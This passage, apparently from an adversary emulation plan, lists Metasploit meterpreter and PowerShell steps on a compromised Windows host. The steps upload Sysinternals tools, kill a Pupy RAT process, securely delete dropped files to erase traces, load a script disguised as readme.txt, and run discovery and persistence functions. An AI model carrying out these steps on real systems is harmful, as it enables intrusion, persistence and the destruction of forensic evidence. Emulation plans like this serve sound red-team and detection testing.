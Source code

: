 [msf] > `sessions`        
[msf] > `sessions -i 1`          

[meterpreter\*] > 
```
upload SysinternalsSuite.zip "C:\\Users\\username\\Downloads\\SysinternalsSuite.zip"
```

[meterpreter\*] > `execute -f powershell.exe -i -H`   

[meterpreter (PowerShell)\*] >   
```
Expand-Archive -LiteralPath "$env:USERPROFILE\Downloads\SysinternalsSuite.zip" -DestinationPath "$env:USERPROFILE\Downloads\"
```

[meterpreter (PowerShell)\*] >     
```
if (-Not (Test-Path -Path "C:\Program Files\SysinternalsSuite")) { Move-Item -Path $env:USERPROFILE\Downloads\SysinternalsSuite -Destination "C:\Program Files\SysinternalsSuite" }
```

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite\"`

#### 4.B
Terminate Pupy RAT process:

[meterpreter (PowerShell)\*] > `Get-Process`

[meterpreter (PowerShell)\*] > `Stop-Process -Id <rcs.3aka3.doc PID> -Force`

You may now close Pupy.

From Metasploit:

[meterpreter (PowerShell)\*] > `Gci $env:userprofile\Desktop`       

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Desktop\?rcs.3aka.doc"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:APPDATA\Draft.Zip"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Downloads\SysinternalsSuite.zip"`      

Import custom script, readme.ps1:

[meterpreter (PowerShell)\*] > `Move-Item .\readme.txt readme.ps1`

[meterpreter (PowerShell)\*] > `. .\readme.ps1`

#### 4.C
[meterpreter (PowerShell)\*] > `Invoke-Discovery`

### Step 5 - Persistence

#### 5.A
[meterpreter (PowerShell)\*] > `Invoke-Persistence -PersistStep 1`      

#### 5.B
[meterpreter (PowerShell)\*] > `Invoke-Persistence -PersistStep 2`       
